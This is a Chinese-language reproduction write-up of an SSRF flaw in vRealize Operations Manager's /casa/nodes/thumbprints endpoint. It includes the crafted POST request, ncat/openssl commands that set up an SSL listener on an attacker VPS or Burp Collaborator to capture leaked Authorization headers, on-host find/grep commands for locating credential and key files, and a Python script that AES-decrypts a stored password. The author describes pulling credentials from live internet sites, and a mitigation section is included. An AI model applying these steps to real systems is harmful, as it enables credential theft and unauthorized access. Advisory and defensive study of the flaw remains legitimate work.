# 漏洞简述

vRealize Operations Manager API包含服务器端请求伪造。可以通过网络访问vRealize Operations Manager API（路由）的恶意攻击者可以执行服务器端请求伪造攻击(SSRF)，并且通过服务器端向监听服务器发送的的request header头，可能会获取认证凭证。

# 影响范围

vRealize_operations_manager: 8.0.0, 8.0.1, 8.3.0, 8.1.0, 8.1.1, 8.2.0, 7.5.0

cloud_foundation: 4.x 3.x

vRealize_suite_lifecycle_manager: 8.x

其中vRealize_operations_manager的8.3及以后版本虽存在SSRF漏洞，但已不能获取认证凭证。

# 漏洞复现

漏洞复现过程：

构造POST请求包，header头必须包含 Content-Type: application/json ，data格式为字典格式的ip:port/web路径，可以填写多个ip，用逗号分开。

```java
POST /casa/nodes/thumbprints HTTP/1.1
Host: 127.0.0.1
Content-Type: application/json
Content-Length: 24

[
"127.0.0.2:6666"]
```

监听请求有两种途径，一是通过自己的vps监听，二是利用burpsuit的Collaborator模块监听

第一种途径：通过vps

在vps监听一个ssl加密协议的端口（一定要ssl加密的端口，否则收到的信息会是乱码，下面坑点处有提到）

```java
#在vps生成加密证书
openssl req -x509 -newkey rsa:4096 -keyout key.pem -out cert.pem

#监听ssl加密端口，这里为6666
ncat -lvk 6666 --ssl --ssl-cert cert.pem --ssl-key key.pem
```

监听端口之后，发送伪造的请求包，即可看到认证凭证，base64解密后为账号密码



第二种途径：通过burpsuit的Collaborator模块（以下用的是burp2.0版本的，1.7版本可能需要单独安装这个模块）

Collaborator配置，其实日常使用默认配置就可以了，第三个选项是可以用自己的vps



打开Collaborator客户端，点击burpsuit左上角的Burp，选择Burp Collaborator client；



伪造的请求包发送之后，就可看到认证凭证了，base64解密就是账号和密码了




# 复现坑点

使用第二种途径burpsuit Collaborator模块复现时倒是没什么问题，但用第一种途径vps监听端口复现时踩了坑。

期间看了漏洞代码的分析、也去找了Collaborator模块能获取到认证凭证的原因，是不是有什么特殊的payload，同时还走了大弯路，想着既然是ssrf漏洞，是不是读取了服务器上的配置文件，然后开始在靶机上各种搜索，通过文件夹名及文件内容过滤，找到了认证凭证存放的配置文件，因为不知道密码加密规则，又在网上找加密方式，未果后，最终还是回到靶机找到了相关的私钥及加密的py脚本，最终解密出来了密码。

此时回想起来，感觉到确实走了大弯路，想想还是回到一篇相对较全的复现文章，仔细看复现的那张截图，有哪些特殊的地方，发现监听端口时，使用了ssl加密。随后从网上找到生成加密证书的方法，但本地靶场却还是没复现成功，后边想着是不是环境的问题，就找了网上的环境，一个个测试，最终找到一个确实能获取凭证的，测试后确定成功了。分析可能是本地靶机环境的加密证书问题，不过，虽然网上的这个站获取到了凭证，但账号却不能登录，应该是账号做了限制了。。到此，这次的坑就踩完了。囧

相关踩坑的截图：

1.普通的端口监听，收到的都是乱码



2.本地靶机使用加密端口监听，收到请求时还是报错



3.有个站点手工获取到凭证了，解密出来还是无法登录。。。囧，这个可能是以后真用到的时候可能会面对的**真坑**



4.靶机中找凭证存放配置文件、私钥存放配置文件、加解密文件

根据Collaborator已经获取到的信息中的账号，找到了认证存放配置文件，但未能解密成功；

```java
find / -name *maintenance*
```



通过相关关键词，找加密的私钥，一顿尝试，找到了，然而通过AES解密，并没有解出来；

```java
find /usr/lib/vmware-vcops/ -name *key*
```



然后就再找加密、解密的脚本，也是一顿搜索，找到了生成私钥的脚本和加解密的脚本；

```java
grep -n -r cluster_master_key /usr/lib/
```



也顺手根据加解密文件名，通过内容查找找到了调用加解密脚本的py脚本；

```java
grep -n -r vcops_crypt /usr/lib/
```



分析加解密脚本，发现是用的base64解密及AES解密将上面提到的密码的密文解密出来的。单独将解密部分的方法拿出来测试，确实解出来了密码，但这里已经是走偏的越来越远；

```java
import os
import sys
from base64 import b64encode, b64decode

try:
    from Crypto.Cipher import AES
except ImportError:
    print(__name__ + ': Could not import Crypto.Cipher.AES, probably a test environment')

#解密方法
def decrypt_impl_v2(keyFilePath,text: str):
    parts = text.split(':')
    if len(parts) != 3:
        print('ERROR: Invalid message format, unable to decrypt.')
        return None

    crypt_settings = None
    with open(keyFilePath, 'r') as keyFile:
        for line in keyFile:
            cs = get_crypt_settings(line)
            if cs is not None and cs['version'].lower() == parts[0].lower():
                crypt_settings = cs
                break
    if crypt_settings is None:
        # message is encrypted with unknown key
        print('ERROR: Message is encrypted with unknown key.')
        return None
#具体的解密语句
    iv = b64decode(parts[1])
    dcipher = AES.new(crypt_settings['key'], AES.MODE_CBC, iv)
    ct = b64decode(parts[2])
    return str(unpad(dcipher.decrypt(ct)), 'UTF-8')

#对私钥内容进行分段提取
def get_crypt_settings(line: str):
    line = line.strip()
    if not line:
        return None
    ret = dict()
    parts = line.split(' ')
    if len(parts) == 1:
        # old key format
        key = parts[0].strip()
        ret['version'] = 'V1'
        ret['key'] = bytes(key, 'UTF-8')
    else:
        ret['version'] = parts[0]
        for s in parts[1:]:
            kvPair = s.split('=', 1)
            kvPair[0] = kvPair[0].lower()
            if kvPair[0] == 'key':
                ret['key'] = b64decode(bytes(kvPair[1], 'UTF-8'))

    return ret

def unpad(data: bytes):
    return data[0:-(data[-1])]

#单独把私钥文件和密码密文当做参数传进去
result = decrypt_impl_v2("cluster_master_key.txt","V2:qSLqYStKf1RpftOQ9l4MKA==:m3zt8+IacO2lDN86HrZRdJGTZi07151GmiWDMWOUeHc=")
print(result)
```

# 漏洞修复

如果无法安装修补程序，或者没有适用于您的 vRealize Operations 版本的修补程序，可以采取以下步骤来解决该问题。应用此权宜措施不会对 vRealize Operations 产生影响。

要在 vRealize Operations 中临时解决此问题，请从 casa-security-context.xml

1. 通过 SSH 或控制台以 root 身份登录主节点，在控制台中按 ALT+F1 进行登录
2. 打开 /usr/lib/vmware-casa/casa-webapp/webapps/casa/WEB-INF/classes/spring/casa-security-context.xml

1. 查找并删除该行： <sec:http pattern="/nodes/thumbprints" security='none'/>
2. 保存并关闭文件

1. 使用以下命令重新启动 CaSA 服务： service vmware-casa restart
2. 在 vRealize Operations 群集中的所有其他节点上重复步骤 1-5


# poc

poc里单独做了一个exp部分，单独使用脚本，加第二个参数即可，第二个参数为vps_ip:port格式或者Collaborator中的域名。需要先vps监听好端口或者使用Collaborator。验证需要到相应的地方去查看header头中是否有Authorization字段。不建议批量exp验证，因网站服务端发送的没有网站的信息，多了容易混乱。

使用域名相对方便一些 ，不过经过测试，都有坑，若需要测试多个站，两者都不能不中断的不间断测试，个人分析应该是因为上一个站测试时，https连接还未完全关闭，导致下一个站发送请求时出现问题，vps的解决方法是，ctrl+c中断之后，再重新监听端口，Collaborator的解决方法是Copy to clipboard重新获取一个域名，Collaborator还有个坑是，域名太长，可能会有一些站不能发送https请求过来。

纯poc部分的检测方法是通过post请求漏洞URL，对比其状态码判断的，对于要获取认证凭证来说，肯定是存在误报的，有的站虽然有SSRF漏洞，但却不一定能获取到认证凭证。

